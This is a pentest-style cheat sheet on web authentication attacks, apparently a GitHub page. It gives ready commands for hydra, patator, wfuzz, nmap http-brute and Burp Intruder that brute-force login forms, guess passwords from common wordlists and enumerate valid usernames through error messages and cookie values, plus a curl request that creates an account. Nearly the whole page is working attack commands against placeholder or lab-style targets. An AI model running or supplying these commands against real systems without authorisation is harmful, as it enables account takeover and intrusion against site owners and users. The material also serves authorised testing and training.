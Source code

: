 # Authentication Attacks

## Authentication Attacks



## HTTP Create User via POST

We can create a user with curl:

```text
curl -X POST -d 'username=testing123&password=test123&confirm=test123' http://victim/
```



### HTTP Basic Authentication

HTTP Basic Authentication with Hydra:

```text
hydra -C /opt/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.10:8080/manager/html
```

### Enumerating Usernames via Error Messages

We can enumerate usernames with error messages.

`Invalid User`

#### BurpSuite Intruder

Add a position in the value that you want to intrude/fuzz:

```text
Intruder -> Positions -> Sniper -> Add Position
```

Select a dictionary attack with:

```text
Intruder -> Payloads -> Payload set -> Payload type (Simple List | Dictionary Attack)
```

Load the dictionary with:

```text
Intruder -> Payloads -> Payload Options -> Load
```

Match the string 'Invalid User' from the HTTP response:

```text
Intruder -> Options -> Grep - Match -> Clear -> Add -> Invalid User
```

Follow redirections on the target only:

```text
Intruder -> Options -> Redirections -> Follow redirections -> In-scope only
```

Start the attack with:

```text
Intruder -> Payloads -> Start attack OR Intruder Start Menu -> Start attack
```

#### patator

We can view the help panel with:

```text
patator http_fuzz --help
```

A few examples of an HTTP authentication dictionary attack: \(Change the parameters and their values\)

```text
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt -x ignore:fgrep='Invalid User'
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt follow=1 -x ignore:fgrep='Invalid User'
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt follow=1 accept_cookie=1 -x ignore:fgrep='Invalid User'
```

**wfuzz**

A few examples of an HTTP authentication dictionary attack: \(Change the parameters and their values\)

```text
wfuzz -c -w names.txt -d "username=FUZZ&password=password" http://10.10.10.10/login.php
```

### Enumerating Usernames via Cookie Values

We can enumerate usernames with cookie values.

#### BurpSuite Intruder

Add a position in the value that you want to intrude/fuzz:

```text
Intruder -> Positions -> Sniper -> Add Position
```

Select a dictionary attack with:

```text
Intruder -> Payloads -> Payload set -> Payload type (Simple List | Dictionary Attack) Intruder -> Payloads -> Payload Options -> Load
```

Match the response string of an invalid user cookie parameter:

```text
Intruder -> Options -> Grep - Match -> Clear -> Add -> wrong_user
```

Follow redirections on the target only

```text
Intruder -> Options -> Redirections -> Follow redirections -> In-scope only
```

Start the attack with:

```text
Intruder -> Payloads -> Start attack OR Intruder Start Menu -> Start attack
```

#### patator

We can do a username enumeration with: \(Change the parameters and their values\)

```text
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt --x ignore:fgrep='wrong_user'
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt follow=1 -x ignore:fgrep='wrong_user'
patator http_fuzz url=http://target/login.php method=POST body='username=FILE0&password=admin&Submit=Login' 0=usernames.txt follow=1 accept_cookie=1 -x ignore:fgrep='wrong_user'
```

### Password Enumeration

#### patator

We can do a password enumeration with: \(Change the parameters and their values\)

```text
patator http_fuzz url=http://target/login.php method=POST body='username=admin&password=FILE0&Submit=Login' 0=passwords.txt --x ignore:fgrep='Invalid Password'
```

## Brute Force in Login Forms

### nmap

```text
nmap -p 80 --script http-brute --script-args 'http-brute.hostname=domain_name,http-brute.method=POST,http-brute.path=/login,userdb=users.txt,passdb=passwords.txt' -v domain_name -n
```

### hydra

```text
hydra -l username -P <IP> http-post-form "/login_file.php:username_parameter=^USER^&password_parameter=^PASS^:error message"

hydra -l username; -P passlist.txt <IP> https-post-form "/directory/filname.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect" -t 64

hydra -l admin -P /opt/SecLists/Passwords/10k_most_common.txt <IP> http-post-form "/dir/filename.php:username=^USER^&password=^PASS^:Invalid" -t 64
```

### wfuzz

```text
wfuzz -c -u http://<IP>/login.php -d 'username_param=FUZZ&password=FUZZ' -w <wordlist.txt> -hh 440

wfuzz -c -z wordlist1.txt wordlist2.txt -u http://<IP>/login.php -d 'username_param=FUZZ&password=FUZZ' -w <wordlist.txt> --hw 430

wfuzz --hw 36 -c -w /opt/SecLists/Passwords/darkweb2017-top1000.txt -d 'username=admin&password=FUZZ&submit=Login' http://10.10.10.86/login
```

#### wfuzz with cookie

```text
wfuzz -w cewl.out -d '<parameters>' -b '<cookie_value>' http://<IP>/login/index.php

wfuzz --hw 29 -c -w /opt/SecLists/Passwords/darkweb2017-top1000.txt -H 'Cookie: password=FUZZ' http://10.10.10.86:8080/ 

wfuzz --hc 200 -w cewl.out -d 'username=FUZZ&passwd=Curling2018!&otherparameters" -b <cookie> http://<ip>/administrator/index.php
```

#### wfuzz with proxy

```text
wfuzz -w cewl.out -d '<parameters>' -p 127.0.0.1:8080 http://<IP>/login/index.php
```

### patator

```text
patator http_fuzz url=http://10.10.10.108/zabbix/index.php method=POST body= 'name=zapper&password=FILE0&autologin=1&enter=Sign+in' 0=/usr/share/SecLists/Passwords/darkweb2017-top1000.txt accept\_cookie=1 follow=1 -x ignore:fgrep= 'Login name or password is incorrect.'
```



